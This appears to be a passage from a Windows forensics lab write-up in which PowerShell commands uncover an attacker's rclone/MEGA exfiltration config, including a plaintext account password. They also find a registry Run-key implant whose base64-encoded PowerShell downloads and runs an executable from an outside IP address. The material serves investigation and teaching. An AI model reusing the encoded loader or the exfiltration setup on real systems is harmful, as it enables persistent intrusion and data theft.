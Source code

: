 Command:

```powershell
Get-Content "C:\Users\dbadmin\AppData\Roaming\rclone\rclone.conf"
```

Output - Evidence:

```powershell
[remote]
type = mega
user = annajones291@hotmail.com
pass = uSWGlucqqjGAE7ZnKNlH_5chwLNmHmfrwZn1-w
```

> **Where did the attacker store a persistent implant in the registry?**
> 

Command:

```powershell
Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run", "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" | Where-Object {$_.PSChildName -ne ""}
```

Output - Evidence:

```powershell
SecurityHealth : C:\Windows\system32\SecurityHealthSystray.exe
SecureUpdate   : powershell.exe -enc aQB3AHIAIAAtAHUAcwBlAGIAIABoAHQAdABwADoALwAvADEAMgA4AC4AMQA5ADkALgAyADQANwAuADEANwAzAC8AYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgACQAZQBuAHYAOgB
                 hAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAcgBtACAAJA
                 BlAG4AdgA6AGEAcABwAGQAYQB0AGEAXABjAG8AbgBmAGkAZwB1AHIAZQAuAGUAeABlAA==
PSPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
PSParentPath   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
PSChildName    : Run
PSDrive        : HKLM
PSProvider     : Microsoft.PowerShell.Core\Registry
```

Command:

```powershell
Get-ChildItem -Path "HKLM:\SYSTEM\CurrentControlSet\Services" | Select-Object PSChildName
```

Output - Evidence:

```powershell
SecurityHealthService
```
